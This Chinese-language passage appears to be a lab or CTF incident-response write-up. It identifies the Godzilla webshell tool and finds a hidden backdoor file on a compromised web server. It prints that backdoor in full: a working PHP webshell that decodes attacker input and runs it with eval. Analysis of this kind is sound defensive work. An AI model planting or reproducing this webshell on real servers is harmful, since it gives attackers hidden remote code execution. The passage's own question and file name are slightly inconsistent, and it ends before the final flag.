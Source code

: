 这些代码行主要用于隐藏病毒活动并确保其能够长时间运行而不被发现。哥斯拉病毒通常会通过Webshell或其他漏洞注入到服务器中，然后使用这些命令来掩盖其存在并执行进一步的恶意操作。
所以我们只需要找到它的github地址并且进行MD5加密即可；
```
Godzilla地址：https://github.com/BeichenDream/Godzilla
```
直接使用md5加密网站对网站进行加密即可！
```
https://www.jyshare.com/front-end/703/
```
![Pasted image 20250319204711](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250319204711.png)
```php
flag{39392de3218c333f794befef07ac9257}
```
## 三、flag3
**黑客使用的什么工具的shell github地址的md5 flag{md5}**
那既然说黑客隐藏shell了，那我们肯定需要用到命令ls -la进行查找；
然后发现在挨个查找的过程中发现.Mysqlli.php如果普通的ls查看目录是查不出来的，必须用到ls -la才行，所以它就是隐藏了，我们直接定位一些它的路径，进行MD5加密即可；
这里看到一个Db文件夹，然后进去查发现一个.Mysqli.php文件，cat打开一下发现是一个后门文件。
![Pasted image 20250319205049](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250319205049.png)
```php
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
$payloadName='payload';
$key='3c6e0b8a9c15224a';
$data=file_get_contents("php://input");
if ($data!==false){
    $data=encode($data,$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
                eval($payload);
        echo encode(@run($data),$key);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```
然后pwd一下看一下现在的绝对路径：
```php
root@ip-10-0-10-5:/var/www/html/include/Db# pwd
/var/www/html/include/Db
root@ip-10-0-10-5:/var/www/html/include/Db# 
```
然后就确定文件的绝对路径：
```
/var/www/html/include/Db/.Mysqli.php
```
然后进行MD5加密一下;
![Pasted image 20250319205347](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250319205347.png)
得到flag：
